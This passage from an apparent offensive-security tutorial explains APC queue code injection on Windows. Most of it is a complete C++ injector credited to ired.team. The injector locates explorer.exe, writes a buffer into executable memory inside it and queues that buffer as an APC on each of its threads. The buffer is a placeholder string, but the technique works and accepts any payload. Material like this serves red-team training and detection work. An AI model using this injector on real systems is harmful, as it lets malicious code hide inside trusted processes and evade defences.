 Unnecessary for our purposes, so we will set it to NULL.

And with that we have everything we need to get started.

# All together

Note: because 90% of the code will be extremely similar in most cases (we _are_ using __defined__ API calls to perform something well-researched and known in a particular manner after all) , we will just use a template from [ired.team](https://www.ired.team/offensive-security/code-injection-process-injection/apc-queue-code-injection). Full credits to them. 

```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include <TlHelp32.h>
#include <vector>

int main()
{
	unsigned char buf[] = "Never trust random blobs of shellcode you find on the Internet";

	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS | TH32CS_SNAPTHREAD, 0);
	HANDLE victimProcess = NULL;
	PROCESSENTRY32 processEntry = { sizeof(PROCESSENTRY32) };
	THREADENTRY32 threadEntry = { sizeof(THREADENTRY32) };
	std::vector<DWORD> threadIds;
	SIZE_T shellSize = sizeof(buf);
	HANDLE threadHandle = NULL;

	if (Process32First(snapshot, &processEntry)) {
		while (_wcsicmp(processEntry.szExeFile, L"explorer.exe") != 0) {
			Process32Next(snapshot, &processEntry);
		}
	}
	
	victimProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, processEntry.th32ProcessID);
	LPVOID shellAddress = VirtualAllocEx(victimProcess, NULL, shellSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;
	WriteProcessMemory(victimProcess, shellAddress, buf, shellSize, NULL);

	if (Thread32First(snapshot, &threadEntry)) {
		do {
			if (threadEntry.th32OwnerProcessID == processEntry.th32ProcessID) {
				threadIds.push_back(threadEntry.th32ThreadID);
			}
		} while (Thread32Next(snapshot, &threadEntry));
	}
	
	for (DWORD threadId : threadIds) {
		threadHandle = OpenThread(THREAD_ALL_ACCESS, TRUE, threadId);
		QueueUserAPC((PAPCFUNC)apcRoutine, threadHandle, NULL);
		Sleep(1000 * 2);
	}
	
	return 0;
}
```

